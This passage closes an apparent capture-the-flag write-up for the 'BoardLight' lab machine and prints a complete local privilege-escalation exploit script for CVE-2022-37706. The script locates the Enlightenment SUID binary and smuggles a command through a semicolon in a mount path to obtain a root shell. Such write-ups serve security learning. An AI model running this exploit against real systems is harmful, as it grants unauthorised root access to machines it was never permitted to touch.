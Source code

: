 ```sh
larissa@boardlight:~$ nano suid.sh 
larissa@boardlight:~$ cat suid.sh
#!/bin/bash

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take a few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/ tmp/exploit" /tmp///net
```

Now all that remains is to execute it and let the magic happen!

{{< image src="../../../boardlight-machine-img/09-root-pwnd.png" alt="greenhorn.htb website" position="center" style="border-radius: 8px;" >}}

Ready! The machine was hacked, I hope you liked this tour, the machine itself was not very difficult but it was super fun and very well done. Especially for us beginners.
